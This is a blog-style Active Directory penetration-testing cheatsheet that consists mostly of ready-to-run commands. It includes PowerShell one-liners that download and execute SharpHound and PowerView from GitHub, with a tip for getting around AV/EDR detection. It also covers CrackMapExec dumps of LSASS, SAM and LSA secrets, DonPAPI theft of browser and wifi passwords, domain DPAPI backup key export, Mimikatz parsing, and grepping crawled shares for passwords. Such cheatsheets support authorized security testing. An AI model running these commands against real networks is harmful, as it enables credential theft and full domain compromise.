 ```yaml
---
title: Active Directory Pentest
author: asphixie
date: 2023-03-10 20:55:00 +0800
categories: [Active Directory, Pentest Cheatsheet]
pin: true
comments: false
---
```


Active Directory Pentesting steps.

## Mapping & Enumeration

### Basic Bloodhound

Use BloodHound to find compromission paths. First execute the collector on a host that is in the targeted domain.

```powershell
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString(‘https://raw.githubusercontent.com/puckiestyle/powershell/master/SharpHound.ps1’);Invoke-BloodHound"
```
{: .nolineno }

If it's possible, execute SharpHound. Otherwise, on Linux, you can use the python version, remotely. More information here : <https://github.com/BloodHoundAD/SharpHound> and <https://github.com/fox-it/BloodHound.py>.

```bash
python3 bloodhound.py -u 'XXX' -dc 'DOMAIN' -c all
```
{: .nolineno }

The tool gives you a .zip file, that you have to send to a Neo4j database. On Linux, install Neo4j and start the service :

```bash
sudo neo4j start
```
{: .nolineno }

Then execute BloodHound and import the zip file.

### Extended Bloodhound (PKI)

Best thing to do is to use Certipy to get a bloodhound extract, including everything about ADCS (templates, etc.) :

```bash
certipy find -bloodhound -u USER@DOMAIN -p 'PASSWORD' -dc-ip DC_IP
```
{: .nolineno }

Then, use Olivier Lyak's bloohound, which includes PKIs stuff (<https://github.com/ly4k/BloodHound>). This will give you the opportunity to check for a lot of knows attacks on ADCS (ESC1 to ESC10).

### Goddi

To get all the important information from the Active Directory :

```bash
./goddi-linux-amd64 -dc IP_DC -domain=DOMAIN -username=USERNAME -password=PASSWORD -unsafe
```
{: .nolineno }

## Shares

Dump all shares via CrackMapExec. This can be used on native Kali distribution :

```bash
crackmapexec smb IP_ADDRESS/MASK -u 'XXX' -p 'XXX' -M spider_plus -o READ_ONLY=false
```
{: .nolineno }

This command create a directory cme_spider_plus in /tmp (for Linux). To retrive passwords, simply use grep, by using keywords like 'password', 'pass', 'username', 'ldap://', etc.

```bash
grep -rnw ./ -e 'password'
```
{: .nolineno }

If detected by AV/EDR, try PowerShell one-liner PowerView :

```powershell
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')"
```
{: .nolineno }

Then, a lot of functionalities can be used. To find all domain shares :

```powershell
Find-DomainShare -CheckShareAccess
```
{: .nolineno }

All the functionalities here : <https://powersploit.readthedocs.io/en/latest/Recon/>

## Dump credentials

### CrackMapExec

Many possibilites. Use --local-auth if using a local admin account.
With lsassy module :

```bash
crackmapexec smb IP_ADDRESS/MASK -d 'DOMAIN'-u 'USER' -p 'PASSWORD' -M lsassy
```
{: .nolineno }

Dump SAM (local hashes) :

```bash
crackmapexec smb IP_ADDRESS/MASK -d 'DOMAIN'-u 'USER' -p 'PASSWORD' --sam
```
{: .nolineno }

Dump LSA secrets :

```bash
crackmapexec smb IP_ADDRESS/MASK -d 'DOMAIN'-u 'USER' -p 'PASSWORD' --lsa
```
{: .nolineno }

Many possibilites here, if you get passwords or NTLM hashes, you know what to do. There's others possibilites too, like authenticating with AES keys (you can use 256 or 128 bits keys). You can get it by dumping LSA secrets. Once you get one, you can use the AES keys with Impacket to do whatever you want, and also get a TGT :

```bash
impacket-getTGT domain.local/username -aesKey AES_KEY -dc-ip DC_IP
```
{: .nolineno }

### DonPAPI

Use DonPAPI to retrieve a lot of credentials (wifi, dpapi keys, browsers passwords, ...) :

```bash
python3 DonPAPI.py DOMAIN/USERNAME:PASSWORD@IP_ADDRESS
```
{: .nolineno }

It's possible to use the tool with Pass-The-Hash :

```bash
python3 DonPAPI.py DOMAIN/USERNAME@IP_ADDRESS --hashes LM:NT
```
{: .nolineno }

If you get a valid admin account, dump the domain backup key. This backup key (.pvk) can then be used to dump all domain user's secrets :

```bash
impacket-dpapi backupkeys --export -t domain.local/username@DC_FQDN -k -no-pass
```
{: .nolineno }

Then, use the domain backup key on all machine, with one command. Extract all FQDN in a file (targets for example) and then :

```bash
python3 DonPAPI.py -pvk pathtofile.pvk domain.local/username@targets -k -no-pass
```
{: .nolineno }

You can parse the output by using this magic one-liner :

```bash
cat DonPapiOutput.txt | grep -ae 'Firefox Password' -e 'Chrome Password' | cut -d : -f 3 | cut -d ' ' -f 2 | sort | uniq >> motdepasse.txt && cat DonPapiOutput.txt | grep -ae '\[mRemoteNG\]' | cut -d : -f 2 | cut -d ' ' -f 1 | sort | uniq >> motdepasse.txt & cat motdepasse.txt | sort | uniq | sed "s,\x1B\[[0-9;]*[a-zA-Z],,g" > motdepasse.txt
```
{: .nolineno }

### Mimikatz

On Windows, retrieve password/hash from a dump file :

```powershell
sekurlsa::minidump "XXXXXXXXX.DMP"
sekurlsa::logonPasswords
```

On Kali, use pypykatz based on python :

```bash
pypykatz lsa minidump 'XXX.DMP'
```
{: .nolineno }

### Others

Native Windows command :

```markdown
rundll32 keymgr.dll, KRShowKeyMgr
```
{: .nolineno }

Savoir : Mimikatz recompiled in Go lang : <https://github.com/vincd/savoir>

